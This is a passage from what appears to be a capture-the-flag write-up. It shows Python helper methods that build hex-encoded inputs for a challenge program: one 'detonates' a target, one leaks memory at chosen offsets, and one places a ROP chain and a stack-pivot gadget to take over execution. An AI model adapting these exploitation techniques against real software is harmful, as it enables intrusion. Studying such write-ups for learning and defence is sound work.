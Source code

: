 ```python
        Generates the code to detonate the nuke on a target
        '''
        if 4 + (2 * len(target)) > self.maxsize:
            raise ValueError('Target name is too long')

        code = ''.join(['S%sI' % x for x in target])
        code += 'DOOM'
        return self.validate(code).encode('hex')

    def leak(self, off, n=4, repro=True):
        '''
        Leaks +n+ bytes from offset +off+ from the target buffer.
        If repro is True, a reprogramming will be requested after the leaking.
        '''
        if ((repro and off + (2*n) - 1 > self.maxsize) or
           (not repro and off + (2*n) > self.maxsize)):
            raise ValueError('Offset too long')

        code = 'I'*off + 'I'.join([x for x in ('O'*n)])
        if repro:
            code += 'R'
        return self.validate(code).encode('hex')

    def pwn(self, pivot, ropchain):
        '''
        Generates the code to execute a ROP chain, a stack pivoting gadget is
        required.
        '''
        # Prepare the ROP chain
        code = ''.join(['S%sI' % x for x in ropchain])
        # Place the pivoting gadget
        code += 'I'*(0x84-len(ropchain))
        code += ''.join(['S%sI' % x for x in struct.pack('<I', pivot)])
        code += 'DOOM'  # Trigger the call to the pivot gadget
        return self.validate(code).encode('hex')
```

### Detonating on GENERAL DOOM
Whit all of this, detonating on any arbitrary target was pretty straight forward:

<div style="text-align:center">